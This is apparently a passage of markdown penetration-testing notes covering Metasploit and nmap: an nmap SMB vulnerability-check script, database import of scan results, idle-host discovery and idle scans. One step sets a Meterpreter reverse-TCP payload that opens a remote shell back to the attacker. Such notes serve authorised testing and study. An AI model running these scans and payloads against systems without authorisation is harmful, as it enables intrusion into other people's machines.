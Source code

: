     - Save
      ~~~
      save
      ~~~
      
    - Check exploit using nmap nse
      - Ref  
        https://nmap.org/book/man-nse.html
      - Commands
        ~~~
        nmap -sT -O --script=smb-check-vulns -P0 [Target IP]
        ~~~

    - Search opened outbound port
      ~~~
      set payload windows/meterpreter/reverse_tcp_allports
      ~~~

  - Import xml file of the nmap result
    ~~~
    # Import
    db_import [xml file]
    
    ## import check
    #  list up target addresses
    #  if ip addresses displayed, file import is succeeded
    hosts -c address
    ~~~

  - Discover Host and Scan
    - Discover Idling Host and Idle Scan
      ~~~
      ## metasploit module
      use auxiliary/scanner/ip/ipidseq
      #(if needs)show options
      set RHOSTS [Target IP addresses ex)192.168.0.0/24]
      set THREADS 50
      run
      
      ## nmap
      nmap -Pn -sI [Discovered Target]
      db_nmap -Pn -sI [Discovered Target]

      ## check the result of nmap imported
      services
      ~~~
